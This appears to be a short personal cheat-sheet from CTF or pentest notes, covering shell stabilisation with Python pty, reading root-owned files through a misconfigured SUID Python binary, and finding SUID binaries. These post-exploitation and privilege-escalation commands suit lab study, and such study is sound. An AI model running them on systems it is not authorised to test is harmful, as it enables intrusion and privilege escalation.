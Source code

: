 ```yaml
---
layout: default
title: "shells"
permalink: /shells/
---
```

# reverse shells

## stabilisation

>```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
followed by
```bash
python3 -c 'import os; os.system("/bin/bash")'
```
(shell still terminates with `Ctrl+C`)

```
The pty module defines operations for handling the pseudo-terminal concept: starting another process
and being able to write to and read from its controlling terminal programmatically.
```

## suids
If suid of python is misconfigured:

>/usr/bin/python : -rwsr-sr-x

can use
>```bash
$ python -c 'print(1+1)'
2
```
```bash
$ python -c 'print(open("/root/root.txt").read())'
```


finding such SUIDs

>```bash
find / -perm /4000 2>/dev/null
```


